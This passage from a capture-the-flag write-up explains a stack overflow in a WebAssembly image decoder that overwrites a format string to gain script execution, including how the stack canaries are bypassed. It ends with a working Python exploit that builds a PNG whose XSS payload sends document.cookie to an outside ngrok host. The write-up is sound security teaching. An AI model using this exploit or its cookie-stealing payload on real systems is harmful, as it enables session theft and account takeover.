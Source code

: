 `global_0` holds the stack pointer, which is initialized to 0x500000. The static string `draw_buf(%u, %u, %u)` is located at 0x500056. Therefore, if we overflow the stack, we can overwrite the format string, which will allow us to control the string that's passed into `_emscripten_run_script` and give us arbitrary script execution. Sounds like just what we need then!

We built an image of size 894x839, which contains 3000264 bytes of image data - just enough to overflow the buffer and the format string, without overflowing too much data in the binary and risking corruption. Using `pwn.cyclic`, we overflowed the stack using a de Bruijn sequence, and verified using the WebAssembly debugger in Firefox that the format string was being overwritten - but `_emscripten_run_script` wasn't getting called at all!

Single-step debugging revealed that `draw_img` was bailing out in an extra code block between the `for` loop and the `draw_buf` - which Ghidra had happily deleted as "unreachable"! It turns out that this code checks two 32-bit values on the stack as a simple kind of "stack canary"; since the values would not normally change, Ghidra decided that the checks were redundant. By checking the loaded canary values with `pwn.cyclic_find`, we were able to figure out the correct offsets in our image data, set the proper canaries, and watch `eval` get called!

## Solution

The attack flow is now clear: we just need need to create an image which, when decoded, is a little over 3M bytes and overflow the allocated buffer, with the proper stack canaries in place. The remaining bytes that spill into the string `draw_buf` will be a string that represents JS code. Therefore, when the logic passes it to `_emscripten_run_script()`, it doesn't eval `draw_buf()`, it evals our XSS payload instead. 

Here's our exploit script:

```python
import numpy as np
from PIL import Image
import pwn
import struct

payload = "fetch('https://redacted.ngrok.io/?c='+(document.cookie));"

payload = payload.encode() + b"\0"
arr = np.zeros((839, 894, 4), dtype='uint8')
row = bytearray(pwn.cyclic(894 * 4 - 1) + b'\0')
row[3312:3316] = struct.pack("<I", 0x42042042)
row[3316:3320] = struct.pack("<I", 0xdeadbeef)
row[3414:3414 + len(payload)] = payload
row = np.asarray(list(row))
arr[:, :, 3] = 0xff
arr[-1] = row.reshape((-1, 4))
arr[:, :, :3] ^= 0xff
Image.fromarray(arr).save("exploit.png")
```

